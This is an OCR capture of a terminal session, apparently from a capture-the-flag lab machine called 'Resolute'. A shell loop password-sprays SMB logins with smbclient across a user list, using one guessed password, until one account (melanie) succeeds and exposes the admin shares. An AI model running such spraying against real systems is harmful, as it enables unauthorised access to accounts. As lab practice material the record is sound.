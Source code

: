 ```
root@kali:~/pwn_share/Machines/Resolute# for i in $(cat users.txt); do echo testing with user $i; smbclient -L \\10.10.10.169 -U="$i%Welcome123!"; done

testing with user Administrator
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user angela
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user annette
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user annika
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user claire
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user claude
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user DefaultAccount
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user felicia
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user fred
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user Guest
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user gustavo
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user krbtgt
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user marcus
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user marko
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user melanie

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
SMB1 disabled -- no workgroup available
testing with user naoki
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user paulo
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user per
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user ryan
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user sally
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user simon
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user steve
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user stevie
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user sunita
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user ulf
session setup failed: NT_STATUS_LOGON_FAILURE
testing with user zach
session setup failed: NT_STATUS_LOGON_FAILURE
```